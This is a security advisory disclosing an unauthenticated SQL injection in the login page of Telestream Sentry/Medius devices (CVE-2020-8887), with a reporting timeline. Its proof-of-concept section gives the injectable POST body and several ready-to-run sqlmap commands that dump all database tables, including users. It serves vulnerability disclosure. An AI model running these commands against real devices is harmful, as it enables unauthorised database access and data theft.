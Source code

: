 ```yaml
---
title: ' Telestream: SQL injection in Sentry/Medius'
severity: High
ghsa_id: GHSA-g69r-8jwh-2462
cve_id: CVE-2020-8887
weaknesses: []
products:
- ecosystem: ''
  package_name: Sentry/Medius
  affected_versions: < 10.7.5
  patched_versions: '> 10.7.5'
cvss: null
credits:
- github_user_id: securitygoon
  name: Matt Bell
  avatar: https://avatars.githubusercontent.com/u/69655154?s=40&v=4
---
```


### Summary
A SQL Injection Vulnerability was discovered by Matt Bell of Google Fiber Security in the following platforms:
- Telestream/Tektronix Sentry running 10.6.6 (and likely versions previous to 10.7.5)
- Telestream/Tektronix Medius running 10.6.2 (and likely versions previous to 10.7.5)

This vulnerability allows an unauthenticated attacker to perform SQL injection on the device, causing the device to return information stored in the system databases. This includes databases, tables, channel/feed subscriptions, etc. 

### Severity
This is a high severity vulnerability for users of this platform as the attack can be conducted with no authentication and allows the exposure of database information.  An unauthenticated attacker can enumerate and dump the contents of the databases stored on the system. 

### Proof of Concept
The attack vector is a SQL injection vuln in index.php via POST to "_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+"

### Further Analysis
**This was the initial command I ran to get the databases, schemas, tables, etc, using sqlmap for efficiency:**
sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="PHPSESSID=408c5b3c721a5da3b610aa6516be313d" --level=1 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --current-user

**Then for the sake of efficiency, you can tune the scan to use specific databases and tables you find and start dumping tables...**
sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="PHPSESSID=408c5b3c721a5da3b610aa6516be313d" --level=3 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --threads=3 -D public --count --output-dir=./

sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="noscript=0; PHPSESSID=408c5b3c721a5da3b610aa6516be313d" --level=3 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --threads=3 -D public -T users --count --output-dir=./

**This command takes MUCH longer to run, but will enumerate all databases and tables and log all findings to a CSV file. I was able to dump the contents of all the tables it found.** 
sqlmap -u "http:///" --data="_z=0&page=login&username=admin&passwd=1234&submit=+Log+In+" --cookie="noscript=0; PHPSESSID=5c71d6d59352a4313bf1200f9cbdf97" --level=3 --risk=3 --batch --dbms=PostgreSQL --dump-format=csv --method=POST --threads=3 -D public -T system_identification --columns --schema --dump-all --comments --count --output-dir=./

### Timeline
__Date reported__:  October 8th, 2019
__Date fixed__:   December. 18th 2019
__Date disclosed__: September 1, 2020